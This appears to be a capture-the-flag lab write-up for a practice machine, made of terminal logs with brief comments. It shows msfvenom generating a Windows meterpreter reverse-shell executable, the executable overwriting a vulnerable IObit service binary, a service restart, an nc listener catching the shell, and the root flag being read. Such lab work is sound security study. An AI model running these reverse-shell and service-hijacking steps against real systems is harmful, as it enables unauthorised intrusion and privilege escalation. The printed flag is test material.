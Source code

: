 #remade the malicious binary:
(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.59.68 LPORT=9999 -f exe > Advanced1.exe                                                 2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes

#stopped the service again (it was already stopped)
#uploaded the new binary
C:\Users\bill\Documents>exit
exit
meterpreter > upload /home/kali/THM/practice/steelmountain/Advanced1.exe
[*] uploading  : /home/kali/THM/practice/steelmountain/Advanced1.exe -> Advanced1.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/THM/practice/steelmountain/Advanced1.exe -> Advanced1.exe
[*] uploaded   : /home/kali/THM/practice/steelmountain/Advanced1.exe -> Advanced1.exe

#moved it to the right diretory:
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>copy Advanced1.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
Overwrite \Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): yes
yes
        1 file(s) copied.


C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd \Users\bill\Documents
cd \Users\bill\Documents

C:\Users\bill\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Documents

09/27/2019  03:07 AM    <DIR>          .
09/27/2019  03:07 AM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)  44,154,212,352 bytes free

C:\Users\bill\Documents>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

#and it sortof worked but no sessoin made
#replace the advanced1 wih adavcned and execute it from documents and its a go!!:
#port 4443
(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.11.59.68] from (UNKNOWN) [10.10.220.76] 49360
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

#I looked around and FINALLY found the flag!!:
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db80